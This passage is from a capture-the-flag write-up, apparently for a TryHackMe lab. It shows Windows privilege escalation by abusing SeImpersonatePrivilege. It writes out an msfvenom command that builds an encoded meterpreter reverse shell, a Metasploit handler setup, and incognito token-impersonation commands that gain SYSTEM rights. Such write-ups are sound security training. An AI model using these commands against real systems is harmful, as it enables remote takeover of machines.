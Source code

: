 
Those are the privileges of the current user which are inherited from a group or given to the account when created. 
However, only three of them stated as _Enabled_.
<br><br>[Here](https://github.com/gtworek/Priv2Admin) is the full list of exploitable privileges.
<br>And [here](https://www.exploit-db.com/papers/42556) is the detailed documentation of abusing token privileges.
<br>Also a great video resource [here](https://www.youtube.com/watch?v=QRpfvmMbDMg) about token handling vulnerabilities.

We will need a module called [incognito](https://labs.f-secure.com/archive/incognito-v2-0-released/).
Therefore I will use **Metasploit Framework** while it has the incognito module built-in.

The one I will be exploiting is the **SeImpersonatePrivilege**.
Follow these steps to get [NT AUTHORITY\SYSTEM](https://superuser.com/questions/471769/what-is-the-nt-authority-system-user) privileges.
- Create a meterpreter reverse shell binary.
{% highlight bash %}
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST={THM IP} LPORT={SOME FREE PORT}-f exe -o ashell.exe
{% endhighlight %}
- Upload the executable to the target machine.
- Start a reverse tcp listener with metasploit:
{% highlight bash %}
msfconsole -q
msf6 use exploit exploit/multi/handler
msf6 set payload windows/meterpreter/reverse_tcp
msf6 set LHOST {THM IM}
msf6 set LPORT {THE PORT DECLARED FOR EXECUTABLE BEFORE}
msf6 run
{% endhighlight %}
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/16.png)<br>
- After successfully receiving the meterpreter console, load the incognito module.
<br>Run:
{% highlight bash %}
msf6 load incognito
{% endhighlight %}
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/17.png)<br>
Then, list all the available tokens:
{% highlight bash %}
list_tokens -g
{% endhighlight %}
There will be a delegation token called "BULTIN\Administrators". We will impersonate that token.
Delegation and impersonation levels are identical locally.
- Run:
{% highlight bash %}
impersonate_token "BUILTIN\Administrators"
{% endhighlight %}